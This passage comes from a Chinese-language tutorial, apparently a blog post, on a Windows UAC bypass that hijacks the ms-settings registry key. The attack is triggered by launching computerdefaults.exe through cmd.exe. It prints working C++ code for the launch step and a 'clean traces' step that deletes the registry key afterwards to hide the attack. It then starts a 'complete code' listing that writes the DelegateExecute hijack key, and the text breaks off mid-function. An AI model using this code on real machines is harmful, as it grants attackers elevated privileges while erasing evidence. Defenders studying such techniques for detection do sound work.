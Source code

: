     	if (!CreateProcess(  
    		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）  
    		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数  
    		NULL,  //进程句柄不可被继承  
    		NULL,  //线程句柄不可被继承  
    		FALSE,  //不继承句柄  
    		0,  //标志位为0  
    		NULL,  //使用父进程的环境变量  
    		NULL,  //使用父进程的工作目录  
    		&si,  //传递启动信息  
    		&pi)  //传递进程信息  
    		) {  
    		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息  
    		return 0;  
    	}  
      
    	//释放进程句柄和线程句柄  
    	CloseHandle(pi.hProcess);  
    	CloseHandle(pi.hThread);

#### 5.清理痕迹

为了清理痕迹，程序等待一段时间后删除 `HKEY_CURRENT_USER\Software\Classes\ms-settings`
键，删除所有刚刚创建的键和键值

    
    
    Sleep(1000);  
      
    //删除整个ms-settings目录  
    if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)  
    {  
        printf("RegDeleteTree Error:%d", GetLastError());  
        return false;  
    }  
    system("pause");

### 完整代码

    
    
    // BypassUac.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。  
      
    #include <iostream>  
    #include <Windows.h>  
      
    BOOL BypassUac(const char* filename) {  
        HKEY hKey;  
        const char* subKey = "Software\\Classes\\ms-settings\\shell\\open\\command";  
        const char* valueName = "DelegateExecute";  
      
        // 创建或打开注册表键  
        if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {  
            std::cerr << "Unable to create or open registry key\n";  
            return false;  
        }  
      